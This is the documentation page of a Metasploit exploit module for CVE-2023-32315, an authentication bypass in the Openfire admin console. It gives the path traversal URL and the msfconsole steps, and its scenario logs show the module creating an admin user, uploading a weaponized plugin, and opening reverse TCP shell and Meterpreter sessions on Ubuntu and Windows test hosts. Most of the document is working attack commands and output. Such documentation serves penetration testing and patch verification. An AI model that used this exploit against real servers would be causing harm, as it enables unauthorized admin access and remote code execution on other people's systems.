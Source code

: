 ## Vulnerable Application
`Openfire's` administrative console, a web-based application, was found to be vulnerable to a path traversal attack
via the setup environment using the path `http://localhost:9090/setup/setup-s/%u002e%u002e/%u002e%u002e/`.
Endpoints such as `log.jsp`, `user-groups.jsp` and `user-create.jsp` can be used to gain unauthorized admin access.
It allows an unauthenticated user to use the unauthenticated `Openfire` Setup Environment in an already configured
`Openfire` environment to access restricted pages in the `Openfire Admin Console` reserved for administrative users.

This module will use the vulnerability to create a new admin user that will be used to upload a `Openfire` management plugin
weaponized with a `Java` native payload that triggers an RCE.
The vulnerability affects all versions of `Openfire` that have been released since April 2015, starting with version `3.10.0`.
The problem has been patched in `Openfire` release `4.7.5` and `4.6.8`, and further improvements will be included
in the first version on the `4.8` branch, which is version `4.8.0`.

This module has been tested on:
- [ ] Ubuntu Linux 22.04.
* Openfire 3.10.1, 4.0.4, 4.1.0, 4.2.0, 4.3.0, 4.4.0, 4.5.0, 4.6.0. 4.7.0, 4.7.1, 4.7.3
* Java 7, 8, 17
- [ ] Windows Server 2019 Datacenter
* Openfire 4.7.3
* Java 20

**Instructions for an Openfire installation:**
Download Openfire releases [here](https://github.com/igniterealtime/Openfire/releases?page=1)
Follow installation instructions [here](https://download.igniterealtime.org/openfire/docs/latest/documentation/install-guide.html)

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set target <0=Java Universal>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

```
msf exploit(multi/http/openfire_auth_bypass_rce_cve_2023_32315) > options

Module options (exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   ADMINNAME                      no        Openfire admin user name, (default: random)
   PLUGINAUTHOR                   no        Openfire plugin author, (default: random)
   PLUGINDESC                     no        Openfire plugin description, (default: random)
   PLUGINNAME                     no        Openfire plugin base name, (default: random)
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                         yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         9090             yes       The target port (TCP)
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI     /                yes       The base path to the web application
   VHOST                          no        HTTP server virtual host


Payload options (java/shell/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal
```

## Options

### TARGETURI
The uripath to the `Openfire Admin Console`. Default set to `/` which is the standard for `Openfire`.

### ADMINNAME
`Openfire` admin user name option to create a new admin user. User name will be randomized if not set.

### PLUGINAUTHOR
`Openfire` plugin author to set the name of the plugin author. Author name will be randomized if not set.

### PLUGINDESC
`Openfire` plugin description to update the description of the plugin. Description will be randomized if not set.

### PLUGINNAME
`Openfire` plugin name to set the plugin name. Plugin name will be randomized if not set.

## Scenarios
### Ubuntu  22.04 - Openfire 4.7.0 - java/meterpreter/reverse_tcp
```
msf exploit(multi/http/openfire_auth_bypass_rce_cve_2023_32315) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Openfire version is 4.7.0
[*] Grabbing the cookies.
[*] JSESSIONID=node010hllcuuhb19x13etracg8jjxk24.node0
[*] csrf=Lc9ZXFTo6H3bnC1
[*] Adding a new admin user.
[*] Logging in with admin user "jdajefap" and password "W3EozCK8Nx".
[*] Upload and execute plugin "U6zVD3dY" with payload "java/meterpreter/reverse_tcp".
[*] Sending stage (58851 bytes) to 192.168.201.59
[*] Meterpreter session 33 opened (192.168.201.10:4444 -> 192.168.201.59:60420) at 2023-07-08 10:33:16 +0000
[!] Plugin "U6zVD3dY" need manually clean-up via Openfire Admin console.
[!] Admin user "jdajefap" need manually clean-up via Openfire Admin console.

meterpreter > getuid
Server username: openfire
meterpreter > sysinfo
Computer        : cuckoo
OS              : Linux 5.15.0-76-generic (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/linux
meterpreter >
```
### Windows Server 2019 Datacenter - Openfire 4.7.3 - java/shell/reverse_tcp
```
msf exploit(multi/http/openfire_auth_bypass_rce_cve_2023_32315) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Openfire version is 4.7.4
[*] Grabbing the cookies.
[*] JSESSIONID=node01dr68xhv8giop14zogvh0ycnt13.node0
[*] csrf=mRz62R9hab6YAgt
[*] Adding a new admin user.
[*] Logging in with admin user "qkcvdmmevuvw" and password "tO0gWgDrM4".
[*] Upload and execute plugin "XZl3TKb1ayogynR" with payload "java/shell/reverse_tcp".
[*] Sending stage (2952 bytes) to 192.168.201.57
[!] Plugin "XZl3TKb1ayogynR" need manually clean-up via Openfire Admin console.
[!] Admin user "qkcvdmmevuvw" need manually clean-up via Openfire Admin console.
[*] Command shell session 32 opened (192.168.201.10:4444 -> 192.168.201.57:50171) at 2023-07-08 10:31:01 +0000


Shell Banner:
Microsoft Windows [Version 10.0.17763.107]
-----


C:\Program Files\Openfire\bin>systeminfo
systeminfo

Host Name:                 WIN-HHRQENPDSRS
OS Name:                   Microsoft Windows Server 2019 Datacenter
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00430-00000-00000-AA500
Original Install Date:     1/23/2023, 4:51:06 AM
System Boot Time:          7/8/2023, 2:16:23 AM
System Manufacturer:       innotek GmbH
System Model:              VirtualBox
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 158 Stepping 13 GenuineIntel ~2306 Mhz
BIOS Version:              innotek GmbH VirtualBox, 12/1/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,048 MB
Available Physical Memory: 728 MB
Virtual Memory: Max Size:  3,469 MB
Virtual Memory: Available: 1,523 MB
Virtual Memory: In Use:    1,946 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: KB4464455
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Desktop Adapter
                                 Connection Name: Ethernet
                                 DHCP Enabled:    Yes
                                 DHCP Server:     192.168.201.1
                                 IP address(es)
                                 [01]: 192.168.201.57
                                 [02]: fe80::b089:6587:7273:231e
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

C:\Program Files\Openfire\bin>
```

## Limitations
No limitations.

